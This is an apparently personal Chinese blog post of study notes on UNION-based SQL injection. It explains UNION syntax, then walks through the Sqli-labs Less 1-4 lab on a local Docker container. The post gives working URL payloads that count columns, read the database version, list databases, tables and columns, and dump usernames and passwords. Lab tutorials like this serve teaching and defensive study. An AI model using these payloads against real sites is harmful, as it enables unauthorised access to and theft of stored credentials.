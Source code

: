 ```yaml
---
layout: post
title: "SQL注入学习02"
date: 2018-06-16
category: 
tags: web安全 sql注入
---
```


## union查询注入

### union介绍

SQL UNION 操作符  
用于合并两个或多个SELECT语句的结果集。  
注意：  
SELECT语句必须拥有**相同数量**的列。  
列也必须拥有**相似的数据类型**。  
每条SELECT语句中列的**顺序必须相同**。  

默认情况，UNION操作符选取不同的值，允许重复的值，使用UNION ALL。  

	SELECT column_name(s) FROM table_name1
	UNION
	SELECT column_name(s) FROM table_name2

	SELECT column_name(s) FROM table_name1
	UNION ALL
	SELECT column_name(s) FROM table_name2

### union查询注入方法

#### UNION 注入应用场景  

前提：  
1.只要UNION连接的几个查询的字段数一样且列的数据类型转换没有问题，就可以查询出结果；
2.注入点页面有回显；

注意点：  
1.只有最后一个SELECT子句允许有ORDER BY；
2.只有最后一个SELECT子句允许有LIMIT；

	mysql> select * from users order by id union select 1,2,3;
	错误 orderby 要在最后一个子句后面

	mysql> select * from users limit 0,1 union select;
	错误 limit 要在最后一个子句后面

#### UNION注入过程-根据Sqli-labs Less1-4学习

tips：order by 猜出来的列数超过数据库表中的列数，报错并不能返回数据  

1. order by 确定列数
2. 观察页面返回，选取可以显示数据的位置，进行下一步的注入
3. 读库信息
4. 读表信息 
5. 读字段
6. 读数据




	docker run -dt --name sqli -p 90:80 --rm acgpiano/sqli-labs 
	docker ps -a
	docker exec -it <id> /bin/bash
	mysql -uroot -p
	show databases;
	use security;

	1. select * from users order by 4; // order by 判断多少列 从1～3 报错了确定有4列

	2. select * from users where id=1 union select 1,2,3;
	select * from users where id=-1 union select 1,(select version()),3;

	3. select * from users where id=-1 union select 1,2,(select group_concat(schema_name) from information_schema.schemata);

	4. select * from users where id=-1 union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='security'); // 当前库可以换成database() ''不识别可以换成十六进制0x

	5. select * from users where id=-1 union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='users');

	6. select * from users where id=-1 union select 1,2,(select group_concat(username,0x7e,password) from users);


浏览器访问：  
http://127.0.0.1:90/Less-1/  

	http://127.0.0.1:90/Less-1/?id=1'
	http://127.0.0.1:90/Less-1/?id=1' order by 1 --+ // 二分法试
	http://127.0.0.1:90/Less-1/?id=-1' union select 1,2,3 --+
	http://127.0.0.1:90/Less-1/?id=-1' union select 1,2,(version())--+ // user() database()

	http://127.0.0.1:90/Less-1/?id=-1' union select 1,2,(select group_concat(schema_name) from information_schema.schemata)--+

	http://127.0.0.1:90/Less-1/?id=-1' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='security')--+

	http://127.0.0.1:90/Less-1/?id=-1' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='users')--+

	http://127.0.0.1:90/Less-1/?id=-1' union select 1,2,(select group_concat(username,0x7e,password) from users)--+


















